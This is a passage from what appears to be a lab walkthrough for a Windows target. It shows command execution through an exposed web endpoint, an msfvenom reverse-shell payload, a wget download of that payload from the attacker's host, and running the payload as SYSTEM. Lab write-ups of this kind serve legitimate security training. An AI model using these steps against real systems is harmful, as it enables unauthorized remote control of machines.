





Now we can access the command endpoint:
```
curl http://localhost:80/?whoami
```


We have system.

Now making a reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=3001 -f exe -o shell.exe
```
And transfer via ssh shell:
```
wget http://192.168.45.236:8000/shell.exe -o shell.exe
```

Now we can run it:
```
curl http://localhost:80/?C:/temp/shell.exe
```


# Alternate (easier)

```
$Resp = iwr 'http://nickel/?whoami' -UseBasicParsing
$Resp.RawContent
```

